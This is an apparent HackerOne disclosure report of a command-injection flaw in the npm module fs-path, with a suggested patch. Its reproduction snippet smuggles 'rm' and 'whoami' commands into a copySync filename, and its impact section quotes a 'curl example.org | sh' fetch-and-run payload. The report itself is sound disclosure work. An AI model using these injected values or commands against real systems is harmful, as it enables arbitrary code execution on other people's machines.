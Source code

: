# `fs-path` concatenates unsanitized input into exec()/execSync() commands

## Report Details
- **Report ID**: 324491
- **URL**: https://hackerone.com/reports/324491
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-11T20:19:23.918Z
- **Disclosed**: 2018-05-11T15:19:57.573Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report command injection in `fs-path`.
It allows to inject and execute arbitrary shell commands while performing various operations from `fs-path` API like copying files.

# Module

**module name:** `fs-path`
**version:** 0.0.24
**npm page:** `https://www.npmjs.com/package/fs-path`

## Module Description

> Useful file utitiles.

## Module Stats

108 downloads in the last day
2 916 downloads in the last week
13 186 downloads in the last month

# Vulnerability

## Vulnerability Description

Arguments are not properly escaped before being concatenated into the command that is passed to `exec()`/`execSync()`.

 See https://github.com/pillys/fs-path/blob/master/lib/index.js

## Steps To Reproduce:

```js
const fsPath = require('fs-path');
const source = '/bin/ls';
const target =  '/tmp/foo;rm\t/tmp/foo;whoami>\t/tmp/bar';
fsPath.copySync(source, target);
```

Observe `/tmp/bar` being created with `whoami` output.

The same issue affects other methods in `fs-path` API, not just `copySync`.

## Patch

The suggested fix is to avoid using `exec`/`execSync` and instead pass parameters as an array of arguments to corresponding `child_process` methods.

## Supporting Material/References:

* Arch Linux current
* Node.js 9.7.1
* npm 5.7.1

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

For setups where user input could end up in arguments of calls to `fs-wrap` API (like filename etc), users would be able to execute arbitrary shell commands.

Note that sanitization of user input on the application side might not prevent this issue, as simple path sanitization that removes stuff `/` and `..` is not enough — commands like `curl example.org | sh` might pass through sanitization of user input (like filenames etc.) on the application side.

## Attachments
No attachments
